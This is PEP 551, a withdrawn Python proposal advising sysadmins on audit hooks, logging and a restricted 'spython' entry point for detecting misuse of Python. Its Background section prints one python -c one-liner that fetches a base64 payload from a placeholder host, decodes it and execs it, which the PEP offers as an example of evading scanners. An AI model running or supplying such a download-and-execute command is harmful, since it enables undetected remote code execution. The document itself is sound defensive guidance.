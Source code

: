 PEP: 551
Title: Security transparency in the Python runtime
Author: Steve Dower <steve.dower@python.org>
Status: Withdrawn
Type: Informational
Content-Type: text/x-rst
Created: 23-Aug-2017
Python-Version: 3.7
Post-History: 24-Aug-2017, 28-Aug-2017

.. note::
   This PEP has been withdrawn. For information about integrated
   CPython into a secure environment, we recommend consulting your own
   security experts.

Relationship to PEP 578
=======================

This PEP has been split into two since its original posting.

See :pep:`578` for the
auditing APIs proposed for addition to the next version of Python.

This is now an informational PEP, providing guidance to those planning
to integrate Python into their secure or audited environments.

Abstract
========

This PEP describes the concept of security transparency and how it
applies to the Python runtime. Visibility into actions taken by the
runtime is invaluable in integrating Python into an otherwise secure
and/or monitored environment.

The audit hooks described in :pep:`578` are an essential component in
detecting, identifying and analyzing misuse of Python. While the hooks
themselves are neutral (in that not every reported event is inherently
misuse), they provide essential context to those who are responsible
for monitoring an overall system or network. With enough transparency,
attackers are no longer able to hide.

Background
==========

Software vulnerabilities are generally seen as bugs that enable remote
or elevated code execution. However, in our modern connected world, the
more dangerous vulnerabilities are those that enable advanced persistent
threats (APTs). APTs are achieved when an attacker is able to penetrate
a network, establish their software on one or more machines, and over
time extract data or intelligence. Some APTs may make themselves known
by maliciously damaging data (e.g., `WannaCrypt
<https://www.microsoft.com/wdsi/threats/malware-encyclopedia-description?Name=Ransom:Win32/WannaCrypt>`_)
or hardware (e.g., `Stuxnet
<https://www.microsoft.com/wdsi/threats/malware-encyclopedia-description?name=Win32/Stuxnet>`_).
Most attempt to hide their existence and avoid detection. APTs often use
a combination of traditional vulnerabilities, social engineering,
phishing (or spear-phishing), thorough network analysis, and an
understanding of misconfigured environments to establish themselves and
do their work.

The first infected machines may not be the final target and may not
require special privileges. For example, an APT that is established as a
non-administrative user on a developer’s machine may have the ability to
spread to production machines through normal deployment channels. It is
common for APTs to persist on as many machines as possible, with sheer
weight of presence making them difficult to remove completely.

Whether an attacker is seeking to cause direct harm or hide their
tracks, the biggest barrier to detection is a lack of insight. System
administrators with large networks rely on distributed logs to
understand what their machines are doing, but logs are often filtered to
show only error conditions. APTs that are attempting to avoid detection
will rarely generate errors or abnormal events. Reviewing normal
operation logs involves a significant amount of effort, though work is
underway by a number of companies to enable automatic anomaly detection
within operational logs. The tools preferred by attackers are ones that
are already installed on the target machines, since log messages from
these tools are often expected and ignored in normal use.

At this point, we are not going to spend further time discussing the
existence of APTs or methods and mitigations that do not apply to this
PEP. For further information about the field, we recommend reading or
watching the resources listed under `Further Reading`_.

Python is a particularly interesting tool for attackers due to its
prevalence on server and developer machines, its ability to execute
arbitrary code provided as data (as opposed to native binaries), and its
complete lack of internal auditing. This allows attackers to download,
decrypt, and execute malicious code with a single command::

    python -c "import urllib.request, base64;
        exec(base64.b64decode(
            urllib.request.urlopen('http://my-exploit/py.b64')
        ).decode())"

This command currently bypasses most anti-malware scanners that rely on
recognizable code being read through a network connection or being
written to disk (base64 is often sufficient to bypass these checks). It
also bypasses protections such as file access control lists or
permissions (no file access occurs), approved application lists
(assuming Python has been approved for other uses), and automated
auditing or logging (assuming Python is allowed to access the internet
or access another machine on the local network from which to obtain its
payload).

General consensus among the security community is that totally
preventing attacks is infeasible and defenders should assume that they
will often detect attacks only after they have succeeded. This is known
as the "assume breach" mindset. [1]_ In this scenario, protections such
as sandboxing and input validation have already failed, and the
important task is detection, tracking, and eventual removal of the
malicious code. To this end, the primary feature required from Python is
security transparency: the ability to see what operations the Python
runtime is performing that may indicate anomalous or malicious use.
Preventing such use is valuable, but secondary to the need to know that
it is occurring.

To summarise the goals in order of increasing importance:

* preventing malicious use is valuable
* detecting malicious use is important
* detecting attempts to bypass detection is critical

One example of a scripting engine that has addressed these challenges is
PowerShell, which has recently been enhanced towards similar goals of
transparency and prevention. [2]_

Generally, application and system configuration will determine which
events within a scripting engine are worth logging. However, given the
value of many logs events are not recognized until after an attack is
detected, it is important to capture as much as possible and filter
views rather than filtering at the source (see the No Easy Breach video
from `Further Reading`_). Events that are always of interest include
attempts to bypass auditing, attempts to load and execute code that is
not correctly signed or access-controlled, use of uncommon operating
system functionality such as debugging or inter-process inspection
tools, most network access and DNS resolution, and attempts to create
and hide files or configuration settings on the local machine.

To summarize, defenders have a need to audit specific uses of Python in
order to detect abnormal or malicious usage. With :pep:`578`, the Python
runtime gains the ability to provide this. The aim of this PEP is to
assist system administrators with deploying a security transparent
version of Python that can integrate with their existing auditing and
protection systems.

On Windows, some specific features that may be integrated through the
hooks added by :pep:`578` include:

* Script Block Logging [3]_
* DeviceGuard [4]_
* AMSI [5]_
* Persistent Zone Identifiers [6]_
* Event tracing (which includes event forwarding) [7]_

On Linux, some specific features that may be integrated are:

* gnupg [8]_
* sd_journal [9]_
* OpenBSM [10]_
* syslog [11]_
* auditd [12]_
* SELinux labels [13]_
* check execute bit on imported modules

On macOS, some features that may be integrated are:

* OpenBSM [10]_
* syslog [11]_

Overall, the ability to enable these platform-specific features on
production machines is highly appealing to system administrators and
will make Python a more trustworthy dependency for application
developers.

True security transparency is not fully achievable by Python in
isolation. The runtime can audit as many events as it likes, but unless
the logs are reviewed and analyzed there is no value. Python may impose
restrictions in the name of security, but usability may suffer.
Different platforms and environments will require different
implementations of certain security features, and organizations with the
resources to fully customize their runtime should be encouraged to do
so.

Summary Recommendations
=======================

These are discussed in greater detail in later sections, but are
presented here to frame the overall discussion.

Sysadmins should provide and use an alternate entry point (besides
``python.exe`` or ``pythonX.Y``) in order to reduce surface area and
securely enable audit hooks. A discussion of what could be restricted
is below in `Restricting the Entry Point`_.

Sysadmins should use all available measures provided by their operating
system to prevent modifications to their Python installation, such as
file permissions, access control lists and signature validation.

Sysadmins should log everything and collect logs to a central location
as quickly as possible - avoid keeping logs on outer-ring machines.

Sysadmins should prioritize _detection_ of misuse over _prevention_ of
misuse.


Restricting the Entry Point
===========================

One of the primary vulnerabilities exposed by the presence of Python
on a machine is the ability to execute arbitrary code without
detection or verification by the system. This is made significantly
easier because the default entry point (``python.exe`` on Windows and
``pythonX.Y`` on other platforms) allows execution from the command
line, from standard input, and does not have any hooks enabled by
default.

Our recommendation is that production machines should use a modified
entry point instead of the default. Once outside of the development
environment, there is rarely a need for the flexibility offered by the
default entry point.

In this section, we describe a hypothetical ``spython`` entry point
(``spython.exe`` on Windows; ``spythonX.Y`` on other platforms) that
provides a level of security transparency recommended for production
machines. An associated example implementation shows many of the
features described here, though with a number of concessions for the
sake of avoiding platform-specific code. A sufficient implementation
will inherently require some integration with platform-specific
security features.

Official distributions will not include any ``spython`` by default, but
third party distributions may include appropriately modified entry
points that use the same name.

**Remove most command-line arguments**

The ``spython`` entry point requires a script file be passed as the
first argument, and does not allow any options to precede it. This
prevents arbitrary code execution from in-memory data or non-script
files (such as pickles, which could be executed using
``-m pickle <path>``.

Options ``-B`` (do not write bytecode), ``-E`` (ignore environment
variables) and ``-s`` (no user site) are assumed.

If a file with the same full path as the process with a ``._pth`` suffix
(``spython._pth`` on Windows, ``spythonX.Y._pth`` on Linux) exists, it
will be used to initialize ``sys.path`` following the rules currently
described `for Windows
<https://docs.python.org/3/using/windows.html#finding-modules>`_.

For the sake of demonstration, the example implementation of
``spython`` also allows the ``-i`` option to start in interactive mode.
This is not recommended for restricted entry points.

**Log audited events**

Before initialization, ``spython`` sets an audit hook that writes all
audited events to an OS-managed log file. On Windows, this is the Event
Tracing functionality,[7]_ and on other platforms they go to
syslog.[11]_ Logs are copied from the machine as frequently as possible
to prevent loss of information should an attacker attempt to clear
local logs or prevent legitimate access to the machine.

The audit hook will also abort all ``sys.addaudithook`` events,
preventing any other hooks from being added.

The logging hook is written in native code and configured before the
interpreter is initialized. This is the only opportunity to ensure that
no Python code executes without auditing, and that Python code cannot
prevent registration of the hook.

Our primary aim is to record all actions taken by all Python processes,
so that detection may be performed offline against logged events.
Having all events recorded also allows for deeper analysis and the use
of machine learning algorithms. These are useful for detecting
persistent attacks, where the attacker is intending to remain within
the protected machines for some period of time, as well as for later
analysis to determine the impact and exposure caused by a successful
attack.

The example implementation of ``spython`` writes to a log file on the
local machine, for the sake of demonstration. When started with ``-i``,
the example implementation writes all audit events to standard error
instead of the log file. The ``SPYTHONLOG`` environment variable can be
used to specify the log file location.

**Restrict importable modules**

Also before initialization, ``spython`` sets an open-for-import hook
that validates all files opened with ``os.open_for_import``. This
implementation requires all files to have a ``.py`` suffix (preventing
the use of cached bytecode), and will raise a custom audit event
``spython.open_for_import`` containing ``(filename, True_if_allowed)``.

After opening the file, the entire contents is read into memory in a
single buffer and the file is closed.

Compilation will later trigger a ``compile`` event, so there is no need
to validate the contents now using mechanisms that also apply to
dynamically generated code. However, if a whitelist of source files or
file hashes is available, then other validation mechanisms such as
DeviceGuard [4]_ should be performed here.



**Restrict globals in pickles**

The ``spython`` entry point will abort all ``pickle.find_class`` events
that use the default implementation. Overrides will not raise audit
events unless explicitly added, and so they will continue to be allowed.

**Prevent os.system**

The ``spython`` entry point aborts all ``os.system`` calls.

It should be noted here that ``subprocess.Popen(shell=True)`` is
allowed (though logged via the platform-specific process creation
events). This tradeoff is made because it is much simpler to induce a
running application to call ``os.system`` with a single string argument
than a function with multiple arguments, and so it is more likely to be
used as part of an exploit. There is also little justification for
using ``os.system`` in production code, while ``subprocess.Popen`` has
a large number of legitimate uses. Though logs indicating the use of
the ``shell=True`` argument should be more carefully scrutinised.

Sysadmins are encouraged to make these kinds of tradeoffs between
restriction and detection, and generally should prefer detection.

General Recommendations
=======================

Recommendations beyond those suggested in the previous section are
difficult, as the ideal configuration for any environment depends on
the sysadmin's ability to manage, monitor, and respond to activity on
their own network. Nonetheless, here we attempt to provide some context
and guidance for integrating Python into a complete system.

This section provides recommendations using the terms **should** (or
**should not**), indicating that we consider it risky to ignore the
advice, and **may**, indicating that for the advice ought to be
considered for high value systems. The term **sysadmin** refers to
whoever is responsible for deploying Python throughout the network;
different organizations may have an alternative title for the
responsible people.

Sysadmins **should** build their own entry point, likely starting from
the ``spython`` source, and directly interface with the security systems
available in their environment. The more tightly integrated, the less
likely a vulnerability will be found allowing an attacker to bypass
those systems. In particular, the entry point **should not** obtain any
settings from the current environment, such as environment variables,
unless those settings are otherwise protected from modification.

Audit messages **should not** be written to a local file. The
``spython`` entry point does this for example and testing purposes. On
production machines, tools such as ETW [7]_ or auditd [12]_ that are
intended for this purpose should be used.

The default ``python`` entry point **should not** be deployed to
production machines, but could be given to developers to use and test
Python on non-production machines. Sysadmins **may** consider deploying
a less restrictive version of their entry point to developer machines,
since any system connected to your network is a potential target.
Sysadmins **may** deploy their own entry point as ``python`` to obscure
the fact that extra auditing is being included.

Python deployments **should** be made read-only using any available
platform functionality after deployment and during use.

On platforms that support it, sysadmins **should** include signatures
for every file in a Python deployment, ideally verified using a private
certificate. For example, Windows supports embedding signatures in
executable files and using catalogs for others, and can use DeviceGuard
[4]_ to validate signatures either automatically or using an
``open_for_import`` hook.

Sysadmins **should** log as many audited events as possible, and
**should** copy logs off of local machines frequently. Even if logs are
not being constantly monitored for suspicious activity, once an attack
is detected it is too late to enable auditing. Audit hooks **should
not** attempt to preemptively filter events, as even benign events are
useful when analyzing the progress of an attack. (Watch the "No Easy
Breach" video under `Further Reading`_ for a deeper look at this side of
things.)

Most actions **should not** be aborted if they could ever occur during
normal use or if preventing them will encourage attackers to work around
them. As described earlier, awareness is a higher priority than
prevention. Sysadmins **may** audit their Python code and abort
operations that are known to never be used deliberately.

Audit hooks **should** write events to logs before attempting to abort.
As discussed earlier, it is more important to record malicious actions
than to prevent them.

Sysadmins **should** identify correlations between events, as a change
to correlated events may indicate misuse. For example, module imports
will typically trigger the ``import`` auditing event, followed by an
``open_for_import`` call and usually a ``compile`` event. Attempts to
bypass auditing will often suppress some but not all of these events. So
if the log contains ``import`` events but not ``compile`` events,
investigation may be necessary.

The first audit hook **should** be set in C code before
``Py_Initialize`` is called, and that hook **should** unconditionally
abort the ``sys.addloghook`` event. The Python interface is primarily
intended for testing and development.

To prevent audit hooks being added on non-production machines, an entry
point **may** add an audit hook that aborts the ``sys.addloghook`` event
but otherwise does nothing.

On production machines, a non-validating ``open_for_import`` hook
**may** be set in C code before ``Py_Initialize`` is called. This
prevents later code from overriding the hook, however, logging the
``setopenforexecutehandler`` event is useful since no code should ever
need to call it. Using at least the sample ``open_for_import`` hook
implementation from ``spython`` is recommended.

Since ``importlib``'s use of ``open_for_import`` may be easily bypassed
with monkeypatching, an audit hook **should** be used to detect
attribute changes on type objects.

Things not to do
================

This section discusses common or "obviously good" recommendations that
we are specifically *not* making. These range from useless or incorrect
through to ideas that are simply not feasible in any real world
environment.

**Do not** attempt to implement a sandbox within the Python runtime.
There is a long history of attempts to allow arbitrary code limited use
of Python features (such as [14]_), but no general success. The best
options are to run unrestricted Python within a sandboxed environment
with at least hypervisor-level isolation, or to prevent unauthorised
code from starting at all.

**Do not** rely on static analysis to verify untrusted code before use.
The best options are to pre-authorise trusted code, such as with code
signing, and if not possible to identify known-bad code, such as with
an anti-malware scanner.

**Do not** use audit hooks to abort operations without logging the
event first. You will regret not knowing why your process disappeared.

[TODO - more bad advice]

Further Reading
===============


**Redefining Malware: When Old Terms Pose New Threats**
    By Aviv Raff for SecurityWeek, 29th January 2014

    This article, and those linked by it, are high-level summaries of the rise of
    APTs and the differences from "traditional" malware.

    `<http://www.securityweek.com/redefining-malware-when-old-terms-pose-new-threats>`_

**Anatomy of a Cyber Attack**
    By FireEye, accessed 23rd August 2017

    A summary of the techniques used by APTs, and links to a number of relevant
    whitepapers.

    `<https://www.fireeye.com/current-threats/anatomy-of-a-cyber-attack.html>`_

**Automated Traffic Log Analysis: A Must Have for Advanced Threat Protection**
    By Aviv Raff for SecurityWeek, 8th May 2014

    High-level summary of the value of detailed logging and automatic analysis.

    `<http://www.securityweek.com/automated-traffic-log-analysis-must-have-advanced-threat-protection>`_

**No Easy Breach: Challenges and Lessons Learned from an Epic Investigation**
    Video presented by Matt Dunwoody and Nick Carr for Mandiant at SchmooCon 2016

    Detailed walkthrough of the processes and tools used in detecting and removing
    an APT.

    `<https://archive.org/details/No_Easy_Breach>`_

**Disrupting Nation State Hackers**
    Video presented by Rob Joyce for the NSA at USENIX Enigma 2016

    Good security practices, capabilities and recommendations from the chief of
    NSA's Tailored Access Operation.

    `<https://www.youtube.com/watch?v=bDJb8WOJYdA>`_

References
==========

.. [1] Assume Breach Mindset, `<http://asian-power.com/node/11144>`_

.. [2] PowerShell Loves the Blue Team, also known as Scripting Security and
   Protection Advances in Windows 10, `<https://blogs.msdn.microsoft.com/powershell/2015/06/09/powershell-the-blue-team/>`_

.. [3] `<https://www.fireeye.com/blog/threat-research/2016/02/greater_visibilityt.html>`_

.. [4] `<https://aka.ms/deviceguard>`_

.. [5] Antimalware Scan Interface, `<https://msdn.microsoft.com/en-us/library/windows/desktop/dn889587(v=vs.85).aspx>`_

.. [6] Persistent Zone Identifiers, `<https://msdn.microsoft.com/en-us/library/ms537021(v=vs.85).aspx>`_

.. [7] Event tracing, `<https://msdn.microsoft.com/en-us/library/aa363668(v=vs.85).aspx>`_

.. [8] `<https://www.gnupg.org/>`_

.. [9] `<https://www.systutorials.com/docs/linux/man/3-sd_journal_send/>`_

.. [10] `<http://www.trustedbsd.org/openbsm.html>`_

.. [11] `<https://linux.die.net/man/3/syslog>`_

.. [12] `<http://security.blogoverflow.com/2013/01/a-brief-introduction-to-auditd/>`_

.. [13] SELinux access decisions `<http://man7.org/linux/man-pages/man3/avc_entry_ref_init.3.html>`_

.. [14] The failure of pysandbox `<https://lwn.net/Articles/574215/>`_

Acknowledgments
===============

Thanks to all the people from Microsoft involved in helping make the
Python runtime safer for production use, and especially to James Powell
for doing much of the initial research, analysis and implementation, Lee
Holmes for invaluable insights into the info-sec field and PowerShell's
responses, and Brett Cannon for the restraining and grounding
discussions.

Copyright
=========

Copyright (c) 2017-2018 by Microsoft Corporation. This material may be
distributed only subject to the terms and conditions set forth in the
Open Publication License, v1.0 or later (the latest version is presently
available at http://www.opencontent.org/openpub/).
